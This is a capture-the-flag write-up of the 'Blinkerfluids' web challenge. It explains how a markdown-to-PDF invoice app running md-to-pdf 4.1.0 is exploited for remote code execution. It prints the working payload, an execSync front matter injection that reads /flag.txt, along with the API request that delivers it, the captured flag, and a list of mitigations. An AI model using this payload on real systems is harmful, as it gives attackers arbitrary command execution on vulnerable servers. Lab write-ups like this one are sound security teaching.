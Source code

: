 ```yaml
---
layout: default
title: Blinkerfluids
---
```


# [Cyber Apocalypse](index.md) - Web - Blinkerfluids


![Blinkerfluids screenshot](web-blinkerfluids/screenshot-00.png)


In this challenge, a web application allows the user to create a markdown based invoice, and it will convert it to PDF. 

We are given a copy of the source code, so the first thing I do is explore that.

The web app is a docker container that runs a `node.js` based javascript web app.

The `Dockerfile` tells us that the flag can be found at /flag.txt:
```Dockerfile
# Add flag
COPY flag.txt /flag.txt
```

The file `MDHelper.js` contains code that uses the `md-to-pdf` module to convert a MarkDown document to a PDF.

```javascript
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```
We can see that it dumps the finished PDF files in `./static/invoices/`.

A quick google search for "md-to-pdf exploits" leads me to numerous sites describing a Remote Code Execution vulnerability in this module prior to version `5.0.0`. The `package.json` file tells me that the version of this plugin that the app is using is `4.1.0`, so we should be able to use this to grab the flag.

The code in `MDHelper` doesn't appear to do any sanitization of the input, it just takes the raw input from the API endpoint and runs it through md-to-pdf. 

The proof of concept code for this exploit tells me that if I give it the following payload, I can run arbitrary commands on the server:
```
---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE
```
Just typing this into the website produces an error.

![Blinkerfluids screenshot](web-blinkerfluids/screenshot-01.png)

There is likely some sanitization code on the client-size (I didn't check), but I didn't see any on the API side when looking in the code, so lets try talking directly to the API.

I used [Insomnia](https://insomnia.rest) to send the following request body directly to `http://challenge-ip-and-port/api/invoice/add`. I had to replace the double-quotes with single-quotes, from the proof of concept code.
```json
{
    "markdown_content" : "---js\n((require('child_process')).execSync('cat /flag.txt > static/invoices/flag.txt'))\n---RCE"
}
```

![Blinkerfluids screenshot](web-blinkerfluids/screenshot-02.png)

The response I got back was:
```json
{
    "message" : "Invoice saved successfully!"
}
```

Now all I needed to do was to visit `http://challenge-ip-and-port/static/flag.txt` to view the flag.

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```

I had originally tried to coax it into putting the flag data into the PDF, but realized I could just copy the file directly to a web-viewable directory and ignore the PDF.

This exploit could have been thwarted by:
 - Updating md-to-pdf to version 5.0.0 or above
 - Sanitizing user input in the API controller to only allow MarkDown
 - Running the app using a limited user account in the Docker container and setting proper permissions for sensitive files in the container.


